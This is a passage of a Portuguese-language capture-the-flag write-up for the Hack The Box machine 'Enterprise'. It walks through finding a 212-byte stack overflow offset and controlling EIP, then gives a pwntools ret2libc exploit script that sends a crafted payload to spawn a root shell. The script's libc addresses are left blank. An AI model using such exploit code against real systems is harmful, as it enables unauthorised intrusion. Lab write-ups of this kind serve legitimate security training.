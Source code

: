 Jogamos na aplicação, dentro do campo 4

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_l10.png)

Agora verificamos o ESP

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_l11.png)

Ai está, sobrescrevemos com 212 bytes

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_l12.png)

Confirmando isso vamos gerar um pattern de 212 com 4 "B" depois dele e jogar na aplicação

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_l13.png)

Ai está! Temos controle do EIP

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_l14.png)

Agora podemos colocar o que quisermos ser executado nele. Vamos montar o exploit então

## Montando o exploit

O tipo de exploit que iremos montar aqui é a partir de uma técnica chamada ret2libc, ou return to libc, na qual nós iremos utilizar de endereços de memória pra própria libc para ganhar um shell de root na máquina

A estrutura dele fica assim

exploit.py
```
from pwn import *
HOST, PORT = '10.10.10.61', 32812

# Montagem do payload a ser enviado - EIP 212

lixo = '\x90' * 212
ret2libc = p32() # system()
ret2libc += p32() # exit()
ret2libc += p32() # sh

exploit = lixo + ret2libc

# Agora vamos montar a interacao ate o momento do buffer

r = remote(HOST, PORT)
r.recvuntil("Enter Bridge Access Code:")
r.sendline("picarda1")
r.recvuntil("Waiting for input:")
r.sendline("4")
r.recvuntil("Enter Security Override:")

# Agora enviamos o payload

r.sendline(exploit)

# Agora tornarmos o shell interativo

r.interactive()
```
